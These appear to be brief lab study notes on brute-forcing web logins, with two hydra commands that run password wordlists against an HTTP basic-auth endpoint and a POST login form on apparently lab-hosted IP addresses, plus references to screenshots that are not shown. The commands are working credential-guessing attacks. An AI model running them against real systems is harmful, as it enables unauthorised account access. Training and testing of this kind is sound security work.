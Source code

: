 ___

# GET

![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]

```shell-session
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

![[Pasted image 20241004131840.png]]

![[Pasted image 20241004132934.png]]

# POST

![[Pasted image 20241004134542.png]]

![[Pasted image 20241004134603.png]]

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 94.237.49.214 -s 37645 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

![[Pasted image 20241004134809.png]]

